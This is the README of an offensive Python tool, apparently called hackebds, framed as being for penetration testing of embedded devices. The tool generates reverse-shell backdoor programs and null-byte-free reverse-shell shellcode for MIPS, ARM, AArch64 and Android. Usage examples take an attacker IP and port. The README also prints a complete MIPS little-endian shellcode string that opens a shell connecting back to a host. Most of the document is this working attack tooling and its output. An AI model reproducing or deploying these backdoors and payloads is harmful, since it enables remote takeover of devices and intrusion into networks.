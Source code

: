 # introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

## install (1)  Highly recommended！！Because the source code compilation may not be updated in time，Please install the latest
**pip install hackebds==0.0.7**
```
pip install hackebds==0.1.2
....
```
#### Instructions for use
When importing this module will import the pwn module

1. Generate backdoor programs of various architectures, encapsulate pure shellcode, and successfully connect to the shell
```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
```
expample:
```
>>> mipsel_backdoor("127.0.0.1",5566)
mipsel_backdoor is ok in current path ./
>>> 
```
2. Generates the use-back shellcode (no free) null bytes corresponding to various architectures

```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
>>> android_aarch64_backdoor("10.11.28.103",7878)
```
example:
```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```
## chips and architectures
Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## updating
 2022.4.19 Added support for aarch64 null-byte reverse_shellcode

 2022.4.30 Reduced amount of code using functions and support python3

 2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and mipsel_reverse_sl were not enabled, added mips64_backdoor, mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl generation

 2022.5.21 0.0.9 version changed the generation method of armel V5 backdoor and added the specified generation of riscv-v64 backdoor

 2022.6.27 0.1.0 Added Android backdoor generation

## One-click build environment

To be added


